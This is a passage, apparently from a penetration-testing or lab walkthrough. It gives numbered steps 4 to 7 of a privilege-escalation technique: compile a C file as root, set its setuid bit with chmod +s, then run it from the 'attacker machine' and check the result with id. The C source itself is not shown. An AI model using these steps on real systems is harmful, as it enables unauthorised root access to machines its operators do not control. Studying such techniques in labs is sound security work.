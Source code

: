 **Do this as root user**

4. In command prompt type: `gcc /tmp/1/x.c -o /tmp/1/x`
5. In command prompt type: `chmod +s /tmp/1/x`


**In Attacker Machine**

6. In command prompt type: `/tmp/x`
7. In command prompt type: `id`
